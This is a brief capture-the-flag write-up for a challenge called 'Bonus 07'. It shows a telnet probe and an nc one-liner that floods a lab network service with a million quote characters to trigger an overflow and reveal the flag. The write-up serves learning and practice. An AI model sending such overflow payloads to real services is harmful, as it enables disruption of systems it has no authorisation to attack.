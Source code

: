 # Bonus 07

The network service at target.xxxxxxx.co on port 9007 can be attacked. This is similar to another service this developer built, but they learned their lessons and worked on securing the service. Security scans tell us there is still an overflow condition but this will be much more difficult.

## Solution

For this one, the error message on startup `The request is not completed, expected"` gave me a hint. I overloaded the server with 1000000 `"` and managed to get the flag. \o/

```
# Raw test
$ telnet target.xxxxxxx.co 9007
Escape character is '^]'.
Processing request from server.
Query is not terminated, expected "
HelloWorld!
Input did not resolve exception. Terminating.
Connection closed by foreign host.

$ (printf '%0.s"' {1..1000000}; printf '\n') | nc target.xxxxxxx.co 9007
Processing request from server.
Query is not terminated, expected "
Query terminated correctly.
Specific0verfl0WiSSp3cif1c
```

Flag is `Specific0verfl0WiSSp3cif1c!`
